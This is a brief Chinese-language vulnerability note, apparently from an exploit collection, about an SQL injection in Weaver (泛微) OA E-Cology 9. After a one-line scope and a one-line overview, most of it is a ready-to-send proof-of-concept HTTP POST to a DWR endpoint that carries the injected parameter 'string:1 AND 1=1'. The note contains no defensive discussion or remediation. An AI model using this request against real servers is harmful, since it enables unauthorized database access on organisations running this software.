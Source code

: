 #### 影响范围

泛微OA E-Cology 9

#### 漏洞概述

泛微OA E-Cology9 某版本SQL注⼊

#### 漏洞复现

漏洞POC:

```
POST /dwr/call/plaincall/CptDwrUtil.ifNewsCheckOutByCurrentUser.dwr HTTP/1.1
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

callCount=1
page=
httpSessionId=
scriptSessionId=
c0-scriptName=DocDwrUtil
c0-methodName=ifNewsCheckOutByCurrentUser
c0-id=0
c0-param0=string:1 AND 1=1
c0-param1=string:1
batchId=0
```

